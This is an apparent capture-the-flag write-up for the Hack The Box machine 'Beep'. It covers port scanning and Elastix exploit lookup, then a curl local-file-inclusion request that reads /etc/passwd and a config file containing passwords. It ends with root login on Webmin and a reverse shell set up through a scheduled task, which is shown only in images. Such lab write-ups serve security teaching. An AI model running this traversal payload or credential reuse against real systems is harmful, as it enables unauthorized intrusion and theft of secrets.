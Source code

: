 # Beep

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.1.226 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-03 22:53 EDT
Nmap scan report for 10.129.1.226
Host is up (0.0079s latency).
Not shown: 65519 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
110/tcp   open  pop3
111/tcp   open  rpcbind
143/tcp   open  imap
443/tcp   open  https
941/tcp   open  unknown
993/tcp   open  imaps
995/tcp   open  pop3s
3306/tcp  open  mysql
4190/tcp  open  sieve
4445/tcp  open  upnotifyp
4559/tcp  open  hylafax
5038/tcp  open  unknown
10000/tcp open  snet-sensor-mgmt
```

Lots of ports open. We can start with the HTTP ports.

### Elastix

Port 443 has an Elastix instance:

<figure><img src="../../../.gitbook/assets/image (160).png" alt=""><figcaption></figcaption></figure>

Elastix has a ton of exploits:

```
$ searchsploit elastix          
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Elastix - 'page' Cross-Site Scripting                      | php/webapps/38078.py
Elastix - Multiple Cross-Site Scripting Vulnerabilities    | php/webapps/38544.txt
Elastix 2.0.2 - Multiple Cross-Site Scripting Vulnerabilit | php/webapps/34942.txt
Elastix 2.2.0 - 'graph.php' Local File Inclusion           | php/webapps/37637.pl
Elastix 2.x - Blind SQL Injection                          | php/webapps/36305.txt
Elastix < 2.5 - PHP Code Injection                         | php/webapps/38091.php
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution     | php/webapps/18650.py
```

Using the LFI exploit, we can confirm that it works by viewing `/etc/passwd`.&#x20;

```
$ curl -k 'https://10.129.1.226/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action' 
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/etc/news:
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
distcache:x:94:94:Distcache:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
pcap:x:77:77::/var/arpwatch:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
dbus:x:81:81:System message bus:/:/sbin/nologin
apache:x:48:48:Apache:/var/www:/sbin/nologin
mailman:x:41:41:GNU Mailing List Manager:/usr/lib/mailman:/sbin/nologin
rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
spamfilter:x:500:500::/home/spamfilter:/bin/bash
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
xfs:x:43:43:X Font Server:/etc/X11/fs:/sbin/nologin
fanis:x:501:501::/home/fanis:/bin/bash
```

The exploit loads `/etc/amportal.conf` by default, and when viewed, we can find a few passwords:

```
AMPDBHOST=localhost
AMPDBENGINE=mysql
# AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE
```

We'll keep this for now.

### Webmin

Using `jEhdIekWmdjE`, we can login as `root` on Webmin on port 10000.&#x20;

<figure><img src="../../../.gitbook/assets/image (166).png" alt=""><figcaption></figcaption></figure>

With access to Webmin, we actually already have full control over the machine. As such, we can create a scheduled command that would give us a reverse shell.

<figure><img src="../../../.gitbook/assets/image (152) (5).png" alt=""><figcaption></figcaption></figure>

We would then catch a reverse shell after waiting a minute.&#x20;

<figure><img src="../../../.gitbook/assets/image (157) (6).png" alt=""><figcaption></figcaption></figure>

Rooted!
